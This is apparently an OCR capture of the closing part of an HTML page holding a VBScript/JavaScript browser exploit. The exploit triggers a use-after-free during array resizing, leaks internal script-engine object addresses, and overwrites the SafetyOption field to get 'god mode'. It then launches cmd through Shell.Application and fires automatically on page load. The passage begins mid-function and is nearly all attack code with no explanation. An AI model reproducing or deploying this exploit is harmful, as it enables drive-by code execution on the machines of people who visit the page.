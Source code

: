 ```html
            c = d & intToStr(addr) & b
            x = UnEscape(c)
            aw = Null
            Set aw = New ArrayWrapper
            ' Single has vartype of 0x04
            aw.A(arg1, 2) = CSng(0)
        End Sub

        Function exploit (arg1)
            Dim addr
            Dim csession
            Dim olescript
            Dim mem

            ' Create a vbscript class instance
            Set dm = New Dummy
            ' Get address of the class instance
            addr = getAddr(arg1, dm)
            ' Leak CSession address from class instance
            mem = leakMem(arg1, addr + 8)
            csession = strToInt(Mid(mem, 3, 2))
            ' Leak COleScript address from CSession instance
            mem = leakMem(arg1, csession + 4)
            olescript = strToInt(Mid(mem, 1, 2))
            ' Overwrite SafetyOption in COleScript (e.g. god mode)
            ' e.g. changes it to 0x04 which is not in 0x0B mask
            overwrite arg1, olescript + &H174

            ' Execute cmd
            Set Object = CreateObject("Shell.Application")
            Object.ShellExecute "cmd"
        End Function
        Function triggerBug
            ' Resize array we are currently indexing
            aw.Resize()

            ' Overlap freed array area with our exploit string
            Dim i
            For i = 0 To 32
                ' 24000x2 + 6 = 48006 bytes
                y(i) = Mid(x, 1, 24000)
            Next
        End Function
    </script>

    <script type="text/javascript">
        function strToInt(s)
        {
            return s.charCodeAt(0) | (s.charCodeAt(1) << 16);
        }
        function intToStr(x)
        {
            return String.fromCharCode(x & 0xffff) + String.fromCharCode(x >> 16);
        }
        var o;
        o = {"valueOf": function () {
                triggerBug();
                return 1;
            }};
        setTimeout(function() {exploit(o);}, 50);
    </script>
</body>
</html>
```